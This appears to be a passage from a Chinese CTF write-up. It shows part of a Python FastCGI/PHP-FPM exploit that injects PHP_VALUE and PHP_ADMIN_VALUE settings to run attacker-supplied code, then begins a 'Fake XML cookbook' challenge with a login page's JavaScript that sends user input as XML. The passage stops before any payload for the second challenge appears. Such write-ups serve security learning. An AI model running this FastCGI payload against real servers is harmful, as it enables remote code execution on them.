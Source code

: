 ```python
    uri = args.file
    content = args.code
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'safe_mode=Off\nopen_basedir=Off\ndisable_functions=Off\nallow_url_include = On'
    }
    response = client.request(params, content)
    print(force_text(response))
```
### Fake XML cookbook
F12看了一眼发现

```
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
```